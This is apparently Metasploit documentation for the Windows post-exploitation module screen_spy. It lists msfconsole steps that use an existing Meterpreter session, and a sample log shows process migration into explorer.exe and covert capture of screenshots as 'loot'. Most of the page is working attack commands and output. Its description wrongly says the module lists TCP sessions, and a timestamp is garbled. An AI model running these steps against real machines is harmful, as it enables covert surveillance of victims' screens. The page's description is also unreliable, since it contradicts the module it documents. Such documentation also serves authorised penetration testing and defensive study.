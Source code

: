## Vulnerable Application

  This Module lists current TCP sessions.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/screen_spy`
  4. Do: `set SESSION <session id>`
  5. Do: `run`

## Options

  ***
  SESSION
  ***
  The session to run the module on.

## Scenarios

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49184) at 201 9-12-12 14:55:42 -0700


  msf > use post/windows/gather/screen_spy
  msf post(windows/gather/screen_spy) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/screen_spy) > run

    [*] Migrating to explorer.exe pid: 1908
    [+] Migration successful
    [*] Capturing 6 screenshots with a delay of 5 seconds
    [*] Screen Spying Complete
    [*] run loot -t screenspy.screenshot to see file locations of your newly acquired loot
    [*] Post module execution completed
  ```
